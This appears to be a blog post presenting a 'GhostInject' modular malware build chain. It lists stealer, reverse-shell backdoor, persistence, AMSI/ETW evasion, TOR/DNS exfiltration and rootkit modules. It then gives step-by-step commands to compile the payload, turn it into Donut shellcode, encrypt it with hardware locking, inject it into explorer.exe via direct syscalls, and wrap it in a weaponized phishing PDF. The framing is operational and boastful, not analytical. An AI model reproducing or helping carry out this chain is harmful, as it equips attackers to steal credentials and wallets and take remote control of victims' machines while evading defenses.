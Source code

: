 ```yaml
---
layout: post
title: "GhostInject Modular Framework"
date: 2025-05-03 12:00:00 +0000
permalink: /2025/05/03/ghostinject.html
categories: announcement
---
```




# How Malware Works — Modular Malware Build System (Ghost Inject Chain)

This is your  **end-to-end ATP-grade modular build system** , where each layer of the malware is designed to  **operate in memory** ,  **evade EDRs** , and  **maintain OPSEC with layered encryption and injection** .

---

## ⚙️ Step 1: Design Your Modular Core

The `stealer/` directory holds all modules compiled into one final malware EXE.

```
stealer/
├── stealer.c       # Core logic — wallet drainer, browser stealer, clipwatcher
├── backdoor.c      # Reverse shell, TOR beacon, DNS callback
├── persistence.c   # WMI Timer, RunKey, Task Scheduler, DLL hijack
├── evasion.c       # AMSI bypass, ETW patch, syscall mapping, unhookers
├── c2.c            # DNS-over-TOR beacon logic, fallback IP rotation
├── injector.c      # Elevation logic, drops + loads vulnerable driver
├── rootkit.sys     # Kernel-mode stealth payload (SSDT hooks, hide files/processes)
```

✅ These are **linked into a single standalone payload** that can self-operate in memory.

---

## 🔨 Step 2: Compile Modular Payload → `loader.exe`

```bash
x86_64-w64-mingw32-gcc stealer.c backdoor.c persistence.c evasion.c c2.c injector.c -o loader.exe -static
```

💡 This produces a **standalone EXE** with all modules embedded. **Stealth-resident.**

---

## 🍡 Step 3: Convert EXE → Shellcode with Donut

```bash
donut.exe loader.exe -o loader.bin
```

* `loader.bin` is now  **Donut shellcode format** , suitable for raw memory injection
* Executes  **in memory** , bypassing disk-based AV/EDR

---

## 🔐 Step 4: Encrypt with CryptexX

```bash
CryptexX.exe loader.bin -o cryptexx.enc -p "UltraKey123!" -bind -hwid -window
```

This adds:

* **AES+XOR dual-layer encryption**
* **HWID locking** (only runs on target machine)
* **Time window** (expire after X days)
* **Loader hash binding** (anti-repacker)

Result: `cryptexx.enc` — fully encrypted + metadata-wrapped payload.

---

## 👻 Step 5: Stub Creation with GhostInject

```bash
GhostStubBuilder.exe cryptexx.enc UltraKey123! explorer.exe -o GhostInject.exe
```

* Creates a **RAM-only loader**
* Injects into **explorer.exe** using **direct syscalls**
* Executes **decrypted shellcode** in memory
* Leaves **zero disk trace**

✅ `GhostInject.exe` is your  **memory-only ATP loader** .

---

## 💣 Step 6: Weaponized Dropper Creation

```bash
python3 dropper.py --input GhostInject.exe --output payload.pdf --template clean_decoy.pdf
```

* Wraps `GhostInject.exe` into **PDF or Office file**
* Uses **macro, JS, or CVE-based exploits**
* Drops and executes  **in memory** , loads CryptexX payload

✅ `payload.pdf` = weaponized phishing file.

---

## 🧼 Malware Execution Chain Summary

```
User opens ➔ payload.pdf
         ➔ Dropper activates
         ➔ Drops GhostInject (RAM-only)
         ➔ GhostInject decrypts cryptexx.enc
         ➔ Donut loader.bin is injected into explorer.exe
         ➔ explorer.exe now runs:
             ├─ stealer.c         (wallets, creds)
             ├─ backdoor.c        (reverse shell)
             ├─ persistence.c     (startup stealth)
             ├─ evasion.c         (AMSI, ETW bypass)
             ├─ c2.c              (exfil via DNS/TOR)
             └─ injector.c        (if admin: drop + map rootkit)
                                  ├─ driver.sys     (signed vuln driver: RTCore64, GDRV)
                                  └─ rootkit.sys    (loaded into kernel memory)
```

---

## ✅ Final Output Map

| Stage             | File                | Description                         |
| ----------------- | ------------------- | ----------------------------------- |
| Build             | `loader.exe`      | Combined malware logic EXE          |
| Shellcode         | `loader.bin`      | Donut shellcode format              |
| Encrypted Payload | `cryptexx.enc`    | AES+XOR+metadata+HWID locked blob   |
| Memory Loader     | `GhostInject.exe` | RAM-only syscall injector           |
| Delivery File     | `payload.pdf`     | Weaponized phishing delivery        |
| Rootkit Payload   | `rootkit.sys`     | Kernel-mode SSDT hooker/AV killer   |
| Signed Driver     | `driver.sys`      | Vulnerable signed driver for loader |

---

## 🔥 You Now Control:

* Modular credential + wallet stealer
* Full remote access via backdoor
* Memory-only loader chain (zero disk trail)
* Kernel-mode rootkit injection (Ring 0)
* TOR/DNS exfil with fallback rotation
* HWID-bound encryption with time kill-switch

---
